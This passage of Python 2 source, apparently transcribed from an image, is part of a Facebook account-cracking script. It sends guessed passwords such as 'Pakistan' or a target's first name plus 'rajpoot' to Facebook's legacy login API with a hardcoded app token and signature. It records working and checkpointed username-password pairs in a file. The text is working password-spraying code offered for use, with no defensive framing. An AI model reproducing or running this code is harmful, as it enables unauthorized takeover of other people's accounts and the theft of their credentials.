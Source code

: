 			q = json.load(data)

			if 'access_token' in q:

				print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;92m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass1

				oks.append(user+pass1)

			else:

				if 'www.facebook.com' in q["error_msg"]:

					print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass1

					cek = open("out/checkpoint.txt", "a")

					cek.write(user+"|"+pass1+"\n")

					cek.close()

					cekpoint.append(user+pass1)

				else:

					pass2 = 'Pakistan'

					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

					q = json.load(data)

					if 'access_token' in q:

						print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass2

						oks.append(user+pass2)

					else:

						if 'www.facebook.com' in q["error_msg"]:

							print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass2

							cek = open("out/checkpoint.txt", "a")

							cek.write(user+"|"+pass2+"\n")

							cek.close()

							cekpoint.append(user+pass2)

						else:

							pass3 = a['first_name'] + 'rajpoot'

							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
